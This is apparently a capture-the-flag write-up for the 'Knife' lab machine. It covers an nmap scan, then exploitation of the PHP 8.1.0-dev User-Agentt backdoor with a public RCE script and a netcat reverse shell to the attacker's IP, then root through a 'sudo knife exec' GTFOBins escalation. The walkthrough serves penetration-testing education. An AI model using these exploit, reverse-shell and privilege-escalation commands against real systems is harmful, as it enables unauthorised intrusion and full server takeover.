# Knife      


## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.



Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
The **SSH** service is running **OpenSSH 8.2p1** on **Ubuntu**. This service enables secure remote access and uses **protocol version 2.0**. The scan reveals the server’s SSH host keys, including **RSA (3072-bit)**, **ECDSA (256-bit)**, and **ED25519 (256-bit)**, which are used for encryption and server authentication. The presence of these keys provides an indication of the security configuration for SSH on this system.

### **80/tcp (HTTP)**
The web server running on this port is **Apache httpd 2.4.41** on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, which allow for a range of client interactions. The HTTP title returned is **Emergent Medical Idea**. Additionally, the **Apache/2.4.41 (Ubuntu)** server header confirms the server type and version, which could be useful in determining any specific vulnerabilities associated with this version.

When I saw that http is open, I pasted `http://{target ip}` into the browser.



As the site is very limited and you can't navigate through it, I decided to use **Gobuster** to search for subdomains but I did not find anything. 

### cURL + Wappalyzer

I decided to look around. I've checked page source but nothing interesting was there. The most useful thing turned out to be **Wappalyzer** extension.


This led me to read about PHP 8.1.0 but again - I did not find anything that could help me further.

So I typed:

```
curl -I http://{target ip}/
```



I pasted **PHP/8.1.0-dev** into Google and found an interesting article:

```
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
```

Long story short:

The article discusses a **backdoor** present in **PHP version 8.1.0-dev**, allowing **remote code execution (RCE)**. This **backdoor** was introduced into the PHP source code by an unauthorized individual, posing a severe security threat to servers running this version of PHP. The **backdoor** is embedded through a simple `user_agent` function call, which accepts code as a parameter and executes it. In practice, this means anyone who calls this code using the appropriate `User-Agent` header can run arbitrary commands on the server.

An attacker could send a specially crafted HTTP request with the `User-Agentt` parameter containing a command they want to execute on the server. This command is then interpreted and executed by PHP without any additional authorization, granting full access to the system. This kind of vulnerability in PHP is highly risky, as it allows intrusion and remote control over the server. The recommended solution is to update PHP to a version that does not contain this backdoor. The article cautions administrators against deploying experimental software versions in production environments. Exploiting this vulnerability may also be challenging to detect, as the attack leaves no obvious traces in the server logs.

I quickly found the exploit to it:

```
https://www.exploit-db.com/exploits/49933
```

```
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
```

### Exploitation

Let's use this `exploit`.

Type in order:

```
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

```
cd php-8.1.0-dev-backdoor-rce
```

Let's use **backdoor** script.

```
python3 backdoor_php_8.1.0-dev.py
```

Provide `http://{target ip}/` when it asks you to enter the host url.



We have a `shell`. Perfect.

### Get the user flag

The `user` flag is in the `/home/james` path.



### Privilege escalation

Since the current shell provides limited options for navigating the system and I couldn't find a way to stabilize it, I decided to simply use a reverse shell script (**revshell_php_8.1.0-dev.py**) to make it easier for me to find an idea to escalate privileges.



### Netcat

First of all, let's set up a **Netcat** listener.

```
nc -lvnp {any port you want}
```



Now in the tab with exploit type:

```
python3 revshell_php_8.1.0-dev.py http://{target ip}/ {your tun0 ip} {port you have chosen}
```

and press `Enter`.




In you **Netcat** tab you shuld have a shell.



It is more stabilized than previous one, excellent.



We can see .ssh directory. We could use `james`'s OPENSSH private key to have even better shell by logging through **SSH** but it isn't necessary.



Now, we could transfer **LINpeas.sh** script via simple Python3 http server form our local machine to the target machine and run it but I found something interesting and finally this gave me the `root`'s flag.

When I want to escalate privileges I almost always hit:

```
sudo -l
```

command.

This time it was very useful again.



The user `james` can run the command `/usr/bin/knife` with root privileges without needing to enter a password (NOPASSWD).

As challenge name is **Knife** I assume that this is fair path to explore.

We could probably edit the `knife` file with some interesting payload and then run it but in cases like this I always like to check **GTFOBins** binaries.



I found this. Let's use it.

Let's move to the `/usr/bin` directory first:

```
cd /usr/bin
```

and when we are in the right path, let's type:

```
sudo knife exec -E 'exec "/bin/sh"'
```



We are `root` :)

### Get the root flag

`Root` flag is in the `/root` directory.



### Paste the flags

